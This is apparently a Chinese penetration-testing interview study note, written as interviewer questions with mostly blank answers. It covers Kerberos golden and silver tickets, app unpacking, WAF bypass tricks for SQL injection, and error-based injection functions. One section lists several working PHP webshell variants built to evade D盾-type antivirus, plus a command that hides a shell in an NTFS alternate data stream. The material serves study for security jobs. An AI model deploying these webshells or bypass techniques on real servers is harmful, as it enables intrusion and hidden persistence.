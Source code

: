
##### 第二个问题（黄金票据和白银票据）
1. `hr：这个内网渗透和域渗透都比较熟悉吗`1. `I：xxx`1. `hr：那问个经典的问题，黄金票据和白银票据了解吗`1. `I： 1.白银票据是一个有效的票据授予服务（TGS）Kerberos票据，因为Kerberos验证服务运行的每台服务器都对服务主体名称的服务帐户进行加密和签名。 `1. `2.黄金票据是伪造TGT并且有效的获得任何Kerberos服务，而白银票据是伪造TGS。`
---


##### 第三个问题（加壳什么的）
1. `hr：这个还比较熟悉app渗透测试和这个绕过防抓包的对吧`1. `I：xxx`1. `hr：那么APP这个里面的加壳了解吗`1. `I：xxx`1. `hr：比如说那个4j(我不知道是不是log4j，听的不是很清楚)，常见的加壳，混淆壳，企业壳，这个脱壳你一般用什么手段呢 --这个hr的语速有点快，我尽量写的像样`1. `I：xxx`
---


##### 第四个问题（绕sql/绕防护软件(比如D盾)的方法）
1. `hr：你还搞过Bypass是吧`1. `I：xxx`1. `hr：这个Bypass是注入的Bypass吗，还是什么Bypass`1. `I：xxx`
---

1. `***绕sql的常见手法:wz`1. `参数污染`1. `内联注释`1. `大小写绕过 （很老的WAF才有用）`1. `替换绕过 （很老的WAF才有用）【和上传文件那个pphphp一样】`1. `特殊符号绕过 （%0a换行）```1. `编码绕过 （比如会多次解码的东西，例如我们DOM XSS绕狗那个）`1. `等价替换 （利用其它函数替代）[union #%0aselect 拦截][union all #%0aselect 不拦截]`1. `容器特性（例如Apace的Hpp,或者是IIS的%分割）`1. `白名单（管理员权限或者是127.0.0.1本地访问不拦截）`1. `缓存区溢出 （数据太多了，超出了WAF检测的范围）`
---

1. `***绕防护软件（比如D盾之类的）的常见手法:wz`1. `通过常量定义：`1. `&lt;?php define("a","$_GET[1]");eval(a);`1. `------`1. `通过字符串拼接 + 双美元符号： `1. `&lt;?php `1. `$a='ass'; `1. `$b='ert';`1. `$funcName=$a.$b;`1. `$x='funcName';`1. `$$x($_REQUEST[1]); # 用不了，就加个@符号`1. `------`1. `通过函数定义强行分割：`1. `&lt;?php`1. `function a($a){`1. `return $a;}`1. `eval(a($_REQUEST)[1]);?&gt;`1. `------`1. `通过类定义，然后传参强行分割:`1. `&lt;?php `1. `class User`1. `{`1. `public $name = '';`1. `function __destruct(){`1. `eval("$this-&gt;name");`1. `}`1. `}`1. `$user = new User;`1. `$user-&gt;name = ''.$_REQUEST[1];`1. `?&gt;`1. `------`1. `多方式传参免杀：`1. `&lt;?php`1. `$COOKIE = $_COOKIE;`1. `foreach($COOKIE as $key =&gt; $value){`1. `if($key=='assert'){`1. `$key($_POST['s'];)`1. `}`1. `}`1. `?&gt;`1. `&lt;?php`1. `$a=get_defined_functions();`1. `$a['internal'][841]($_GET['a']);`1. `------`1. `拿到shell之后藏shell的妙招：ntfs文件流`1. `&lt;?php include('/:123.txt')?&gt; + echo "&lt;?php eval($_REQUEST[a])?&gt;" &gt;&gt; /:123.txt `1. `------`1. `通过连接云主机数据库:`1. `绕过市面上所有WAF(终极手法)`1. `&lt;?php`1. `eval(mysqli_fetch_assoc(mysqli_query(mysqli_connect('127.0.0.1','root','root','maoshe'),'select * from info'))['info']); `
---


##### 第五个问题（SRC/渗透思路/报错注入的函数）
1. `hr：企业的SRC挖过吗，或者专属的SRC`1. `I：xxx`1. `hr：那你说一下，你对你挖到的公益SRC或者公益项目那个印象最深刻`1. `I：xxx（这个看自己挖到的漏洞）`1. `hr：那你讲一下，你的整体的渗透思路`1. `I：xxx`1. `hr：那你能讲一下，常见的报错注入有哪些函数吗`1. `I：常用的报错注入的函数：`1. `floor()函数、`1. `exp()函数、`1. `updatexml()函数、`1. `join()函数、`1. `extravalue()函数等`
---

1. `渗透思路大概说一下`
[2022年蓝队初级面试题总结- Track 知识社区 - 掌控安全在线教育 - Powered by 掌控者](https://bbs.zkaq.cn/t/6709.html)

---


##### 第六个问题（判断数据库）
1. `hr：那你当时是怎么判断，目标用的数据库呢`1. `I：xxx`
---
